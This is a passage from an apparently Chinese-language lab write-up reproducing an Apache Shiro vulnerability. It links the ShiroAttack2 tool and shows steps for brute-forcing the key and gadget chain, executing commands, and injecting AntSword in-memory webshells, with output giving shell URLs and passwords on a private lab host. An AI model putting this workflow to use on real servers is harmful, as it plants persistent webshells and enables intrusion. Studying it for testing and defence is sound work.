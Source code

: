 ##### 蚁剑链接

```python
蚁剑[Filter] 内存马注入成功：http://192.168.70.14:8080/favicondemo1.ico  密码：ikun123
```

![image-20240924152838394](https://image.201068.xyz/assets/36.漏洞复现/image-20240924152838394.png)

![image-20240924152856098](https://image.201068.xyz/assets/36.漏洞复现/image-20240924152856098.png)

#### ShiroAttack2

github：https://github.com/SummerSec/ShiroAttack2

下载地址：https://github.com/SummerSec/ShiroAttack2/releases/download/4.7.0/shiro_attack-4.7.0-SNAPSHOT-all.zip

##### 爆破密钥

![image-20240924143807637](https://image.201068.xyz/assets/36.漏洞复现/image-20240924143807637.png)

##### 爆破利用链

![image-20240924143902460](https://image.201068.xyz/assets/36.漏洞复现/image-20240924143902460.png)

##### 命令执行

![image-20240924143918372](https://image.201068.xyz/assets/36.漏洞复现/image-20240924143918372.png)

![image-20240924143935464](https://image.201068.xyz/assets/36.漏洞复现/image-20240924143935464.png)

##### 内存马

![image-20240924151949975](https://image.201068.xyz/assets/36.漏洞复现/image-20240924151949975.png)

##### 蚁剑链接

```python
蚁剑[Filter]  注入成功!
路径：http://192.168.70.14:8080/shell.jsp
密码：pass1024
```

![image-20240924152200822](https://image.201068.xyz/assets/36.漏洞复现/image-20240924152200822.png)

![image-20240924152436061](https://image.201068.xyz/assets/36.漏洞复现/image-20240924152436061.png)

